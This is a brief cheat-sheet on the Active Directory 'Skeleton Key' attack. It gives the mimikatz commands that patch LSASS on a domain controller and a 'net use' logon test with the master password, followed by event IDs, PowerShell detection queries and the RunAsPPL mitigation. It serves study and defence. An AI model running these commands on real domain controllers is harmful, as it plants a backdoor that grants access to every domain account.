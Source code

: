 ### Skeleton Key
#### Preq
mimikatz  
Domain Admin rights  
### Mimi
``privilege::debug``
``misc::skeleton``
### Test
``net use _DRIVE_:\\_DC_\c$ /user:_DOMAIN_\administrator mimikatz``
### Defend
#### Moinitor Events:  
System Event ID 7045 - A service was installed in the system. (Type Kernel Mode driver)  
Security Event ID 4673 – Sensitive Privilege Use ("Audit privilege use" must be enabled)  
Event ID 4611 – A trusted logon process has been registered with the Local Security Authority ("Audit privilege use" must be enabled)  
Get-WinEvent -FilterHashtable @{Logname='System';ID=7045} | ?{$_.message -like "Kernel Mode Driver"}  
This only detect mimidrv Get-WinEvent -FilterHashtable @{Logname='System';ID=7045} | ?{$.message -like "Kernel Mode Driver" -and $.message -like "mimidrv"}  
#### Mitigation:  
Run lsass.exe as a protected process, it forces an attacker to load a kernel mode driver  
New-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name RunAsPPL -Value 1 -Verbose  
Verify after reboot: Get-WinEvent -FilterHashtable @{Logname='System';ID=12} | ?{$_.message -like "protected process"}  
